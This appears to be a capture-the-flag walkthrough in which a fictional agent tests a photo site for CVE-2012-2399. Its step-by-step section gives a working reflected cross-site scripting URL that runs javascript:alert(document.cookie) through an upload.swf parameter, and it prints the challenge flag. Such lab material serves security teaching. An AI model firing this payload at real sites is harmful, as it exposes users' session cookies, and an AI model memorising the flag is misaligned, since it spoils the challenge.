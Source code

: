 # 💣 Exposure - L11 C10

One of the Bulldogs, Lara Mindsay, is a surveillance expert and we think she's been using advanced drones to take high resolution photos of the bank from different angles.

She also runs a small legit side project, a photo site which allows anyone to create an account and upload photos. We think she's using it herself to store the bank surveillance photos and so we want to see if it's vulnerable. We've been penetration testing the site but have not had any success so far, then this morning one of the other agents sent me a tip - CVE-2012-2399. Take a look and see if you can use it to see if the site is vulnerable.

**Tip:** Find the vulnerability to get the flag.

<details><summary>

## Need a hint?</summary>

```txt
💡 Hint: What does google say about the CVE? Are there examples of ways to take advantage of this flaw?
   If there are then try them out!
```

</details>

<details><summary>

## Step by Step</summary>

- Insert the following as the url

`https://www.photobobbins.com/upload.swf?buttonText=%3Ca%20href=%27javascript:alert(document.cookie)%20%27%3EClick%20me%3C/a%3E`

- The flag should show up

`flag: rbvhuK8ROZ3ZTrfxPfyY`

</details>
